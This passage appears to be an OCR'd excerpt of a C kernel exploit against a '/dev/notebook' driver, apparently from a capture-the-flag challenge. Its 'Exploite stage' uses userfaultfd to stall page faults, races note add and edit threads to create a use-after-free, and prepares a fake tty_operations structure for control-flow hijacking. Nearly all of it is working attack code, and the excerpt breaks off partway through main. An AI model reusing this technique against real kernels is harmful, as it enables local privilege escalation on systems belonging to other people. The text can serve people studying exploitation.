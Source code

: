 ```c
    return read(note_fd, buf, idx);
}

ssize_t note_wriite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

/**
 * Exploite stage
 */

void* fix_size_by_add(void *args)
{
    sem_wait(&evil_add_sem);
    note_add(0, 0x60, uffd_buf);
}

void* construct_uaf(void * args)
{
    sem_wait(&evil_edit_sem);
    note_edit(0, 0, uffd_buf);
}

int main(int argc, char **argv, char **envp)
{
    struct knotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infastructure */
    save_status();
    bind_core(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        err_exit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE, 
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
    register_userfaultfd_for_thread_stucking(
        &uffd_monitor_thread,
        uffd_buf,
        0x1000
    );

```